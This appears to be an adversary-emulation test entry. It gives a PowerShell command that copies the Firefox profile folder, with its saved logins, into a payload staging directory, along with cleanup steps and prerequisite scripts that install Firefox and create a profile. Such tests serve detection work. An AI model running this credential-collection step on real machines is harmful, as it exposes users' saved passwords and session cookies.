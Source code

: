 #### Attack Commands: Run with `powershell`!

```powershell
Copy-Item "$env:APPDATA\Mozilla\Firefox\Profiles\" -Destination "PathToAtomicsFolder\..\ExternalPayloads" -Force -Recurse
```

#### Cleanup Commands:

```powershell
Remove-Item -Path "PathToAtomicsFolder\..\ExternalPayloads\Profiles" -Force -ErrorAction Ignore -Recurse
```

#### Dependencies: Run with `powershell`!

##### Description: Firefox must be installed

##### Check Prereq Commands:

```powershell
if ((Test-Path "C:\Program Files\Mozilla Firefox\firefox.exe") -Or (Test-Path "C:\Program Files (x86)\Mozilla Firefox\firefox.exe")) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
if ($env:PROCESSOR_ARCHITECTURE -eq 'AMD64') {$url="https://download.mozilla.org/?product=firefox-latest-ssl&os=win64&lang=en-US"}else {$url="https://download.mozilla.org/?product=firefox-latest-ssl&os=win&lang=en-US"}
$installer = "PathToAtomicsFolder\..\ExternalPayloads\firefoxsetup.exe"
(New-Object Net.WebClient).DownloadFile($url,$installer)
Start-Process $installer -ArgumentList '/S' -Wait
```

##### Description: Firefox login data file must exist

##### Check Prereq Commands:

```powershell
if (Test-Path "$env:APPDATA\Mozilla\Firefox\Profiles\") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
if ($env:PROCESSOR_ARCHITECTURE -eq 'AMD64') {$firefox="C:\Program Files\Mozilla Firefox\firefox.exe"}else {$firefox="C:\Program Files (x86)\Mozilla Firefox\firefox.exe"}
Start-Process $firefox -ArgumentList '-CreateProfile Atomic' -Wait
Start-Process $firefox -NoNewWindow
Start-Sleep -s 20
Stop-Process -Name firefox
```
